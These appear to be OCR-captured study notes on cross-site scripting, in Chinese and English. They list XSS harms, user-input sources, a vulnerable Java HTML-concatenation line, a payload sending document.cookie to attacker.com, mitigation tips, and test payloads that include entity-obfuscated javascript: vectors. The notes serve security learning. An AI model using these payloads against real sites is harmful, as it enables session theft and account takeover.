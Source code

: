 
XSS攻击的危害包括
盗取各类用户帐号权限(控制所盗窃权限数据内容)，如机器登录帐号、用户网银帐号、各类管理员帐号
控制企业数据，包括读取、篡改、添加、删除企业敏感数据的能力
基于XSS的跨站业务请求(如：非法转账、非法下单、非法转载/发表内容、发送电子邮件、利用管理员身份提权挂马、控制受害者机器向其它网站发起攻击等)
形成持久化APT攻击，长期控制网站业务中枢
利用跨站业务形成蠕虫病毒式传播
劫持网站，劫持后可用于钓鱼、伪装、跳转、挂广告等，属挂马类型


XSS跨站脚本，是一种Web安全漏洞，有趣是是他并不像SQL注入等攻击手段攻击服务端，本身对Web服务器没有危害，攻击的对象是客户端，使用浏览器访问这些恶意地址的网民



A7: USER INPUT
+ The URL
+ HTTP referrer objects
+ GET parameters from a form
+ POST parameters from a form
+ Window.location
+ Document.referrer
+ document.location
+ document.URL
+ document.URLUnencoded
+ cookie data
+ headers data
+ database data
 

A7: EXAMPLE
+ (String) page += “<input name=‘somefield’ type=‘TEXT’ value=‘” + reques.getParameter(“inputfield”) + “’>”;
+ ‘><script>document.location=‘http://www.attacker.com/cgi- bin/cookie.cgi?foo=‘+document.cookie</script>’
 
A7: COMMON SOLUTION
+ Use safe framework
+ Escaping untrusted HTTP request data
+ https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet
 


1. 标准的xss漏洞测试代码
<script>alert('xss')</script>
2. img图片标记属性跨站攻击代码
<img src="javascript:alert(/xss/)"></img>
<img dynsrc="javascript:alert('xss')">
3. 无需"<>"，利用html标记事件属性跨站
<img src="" onerror=alert("xss")>
4. 空格与回车符转换
<img src="Jav&#x09;ascript:alert('xss')">
<img src="Jav&#x0A;ascript:alert('xss')">
<img src="Jav&#x0D;ascript:alert('xss')">
